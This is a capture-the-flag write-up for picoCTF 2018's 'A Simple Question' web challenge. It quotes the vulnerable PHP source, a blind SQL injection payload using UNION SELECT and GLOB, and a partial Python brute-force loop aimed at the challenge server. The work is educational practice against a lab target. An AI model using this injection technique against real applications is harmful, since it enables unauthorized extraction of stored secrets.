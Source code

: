 # A Simple Question
Points: 650

## Category
Web Exploitation

## Question
>There is a website running at http://2018shell1.picoctf.com:2644 ([link](http://2018shell1.picoctf.com:2644/)). Try to see if you can answer its question. 

### Hint
No Hints.

## Solution
Looking at the source code, we can see that this web application is vulnerable to SQL injections.

```php
include "config.php";
ini_set('error_reporting', E_ALL);
ini_set('display_errors', 'On');

$answer = $_POST["answer"];
$debug = $_POST["debug"];
$query = "SELECT * FROM answers WHERE answer='$answer'";
echo "<pre>";
echo "SQL query: ", htmlspecialchars($query), "\n";
echo "</pre>";
```

However, it doesn't appear to print anything out, but just tells you either you're wrong, you're close, or you get the flag

```php
$con = new SQLite3($database_file);
$result = $con->query($query);

$row = $result->fetchArray();
if($answer == $CANARY)  {
	echo "<h1>Perfect!</h1>";
	echo "<p>Your flag is: $FLAG</p>";
}
elseif ($row) {
	echo "<h1>You are so close.</h1>";
} else {
	echo "<h1>Wrong.</h1>";
}
```

Alright, let's create a small injection to slowly brute-force the answer.
`' UNION SELECT * FROM answers WHERE answer GLOB '<input>*'; --`

We use _GLOB_ instead of _LIKE_ because it's case-sensitive. Also we use _*_ or _%_ because _GLOB_ uses Unix wildcards.

We run the script and get the flag.

```python
final = ''
while True:
	for i in range(0x20, 0x7f):
		if i != 42 and i != 63: # Removes Unix wildcards '*' and '?'
			params = {
				'answer': "' UNION SELECT * FROM answers WHERE answer GLOB '{}{}*'; --".format(final, chr(i))
			}
			r = requests.post('http://2018shell1.picoctf.com:2644/answer2.php', data=params)
			res = r.text
			print res
```

Working solution [solve.py](solution/solve.py)

